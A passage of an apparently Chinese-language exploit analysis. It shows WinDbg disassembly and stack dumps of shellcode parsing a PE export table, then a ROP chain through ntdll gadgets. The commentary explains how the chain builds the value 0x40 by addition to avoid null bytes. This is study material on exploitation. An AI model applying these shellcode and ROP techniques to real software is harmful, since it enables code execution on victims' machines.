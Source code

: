 	048563c2 ad lods dword ptr [esi]

	048563c3 8b5810 mov ebx,dword ptr [eax+10h]

	048563c6 8b533c mov edx,dword ptr [ebx+3Ch]

	048563c9 03d3 add edx,ebx

	048563cb 8b5278 mov edx,dword ptr [edx+78h]

	048563ce 03d3 add edx,ebx

	048563d0 8b7220 mov esi,dword ptr [edx+20h]

	048563d3 03f3 add esi,ebx

	048563d5 33c9 xor ecx,ecx

	048563d7 41 inc ecx

接下来再把ffffffff给了ebp，0x481268给了ebx。

	7772b72a 5d pop ebp

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	0:005> dd esp

	05ac92b8 ffffffff 776948b9 04801268 776fa30c

	ntdll!_memccpy+0x59:

	776948b9 5b pop ebx

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	0:005> dd esp

	05ac92c0 04801268 776fa30c fa3dfa7f 7769ab39

	ntdll!TppCritResetThread+0x43:

这里可能会有点疑问，因为函数的参数布置并没有和eax有关，这里为什么要给eax赋值，并且跟在它后面一句的是add
eax,5C205C1h，这似乎看起来更奇怪了。其实这里没有问题，我们可以看到函数参数要求edx为0x40，那代表着我们输入的时候需要输的是0x00000040，这样就有了很多的x00会被当做终止符，所以这里vupon就用了这种方法先给eax赋值0xfa3dfa7f然后又加上了0x5c205c1，可以算下0xfa3dfa7f+0x5c205c1=0x100000040最后取后八位也就是0x40。然后后面用xchg将eax赋值和edx交换。

	776fa30c 58 pop eax

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	0:005> dd esp

	05ac92c8 fa3dfa7f 7769ab39 77696d70 7772d241

	0:005> p

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	eax=fa3dfa7f ebx=04801268 ecx=0480125c edx=0000008a esi=048563b4 edi=776a5f18
